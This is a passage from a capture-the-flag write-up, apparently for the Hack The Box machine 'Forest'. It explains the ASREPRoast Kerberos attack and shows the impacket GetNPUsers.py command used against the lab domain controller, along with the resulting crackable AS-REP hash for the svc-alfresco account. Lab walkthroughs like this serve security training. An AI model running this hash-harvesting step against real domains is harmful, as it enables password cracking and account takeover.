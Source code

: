 **2.2 Scanning port 88**

Since we have a list of valid users we can try **ASREPRoast** attack.

( *The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline ) [source](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/).*

I am using **GetNPUsers.py** from **[impacket](https://github.com/SecureAuthCorp/impacket/tree/master/examples)**  to perform this attack

    python GetNPUsers.py htb.local/ -usersfile users.txt -format hashcat -outputfile hashed -dc-ip 10.10.10.161

Options:

- [**htb.local**](http://htb.local) - is the domain name we extracted from the nmap output
- **-usersfile** - the list of users we want to test aginst // we extracted from enum4linux output
- **-format hashcat** - tells the tool to set the hash (if exists) to hashcat format so we crank it easilt
- **-outputfile** - the place to put the output in
- **-dc-ip -** the domain controller IP address

![/images/forest/getnp.png](/images/forest/getnp.png)

From the output it seems it didn't work but then you realize that you have an output file with big hash 

    $krb5asrep$23$svc-alfresco@HTB.LOCAL:14c0bc63892470b5a2246ad5456d61f8$11340938cc2f5070bce088816b5a70abb614dcceeaafb99e59788bb288b0b3ad0231b46ec4603d9ebac192028e8d7ac1042cedc80d38c048ba2e8a881f26c0d94d267a52cc59194f4c7b08bef5256198f73e3e9a60c3aa6f92623c12e0b7c4a425edbfbe72561eb97142c8853dea7f532589e7e03d61bbccddaff66bad8d4e1039384ceb364c9d95c1a6828fc9eb232a176f44c44844eed8d9eecf208e22617a46ee61881f9bfda2ab3b67428a43d76798299cda3de9b279b88e8d34e40ab62846252050d6c48870527f1208bf1fb67f17452b0813358c8cefb0df724ce323ba39e212065cbb
